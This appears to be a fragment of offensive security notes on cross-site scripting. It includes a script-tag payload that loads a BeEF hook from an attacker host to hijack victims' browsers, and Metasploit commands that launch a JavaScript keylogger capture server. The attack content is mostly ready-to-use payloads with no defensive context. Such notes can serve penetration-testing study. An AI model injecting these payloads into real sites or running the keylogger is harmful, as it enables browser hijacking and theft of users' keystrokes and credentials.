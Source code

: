 ```
        .N0   lOXNX0x;  .KWWWWWWWWWWWNkc.                             
         :NO,         'lXWWWWWWWWWNk:.                                
          .dXN0OkxkO0NWWWWWWWWWWKl.                                   
             .';o0WWWWWWWWWWWNk;                                      
                  .cxOKXKKOd;.                                        
                                    
```



```javascript
<script src="http://192.168.1.9:3000/hook.js"></script>
```

<figure><img src="../../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (2) (1).png" alt=""><figcaption></figcaption></figure>

[WriteUP](https://medium.com/@secureica/hooking-victims-to-browser-exploitation-framework-beef-using-reflected-and-stored-xss-859266c5a00a)

### XSS - Keyloger

```
use auxiliary/server/capture/http_javascript_keylogger
run
```

<figure><img src="../../../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>
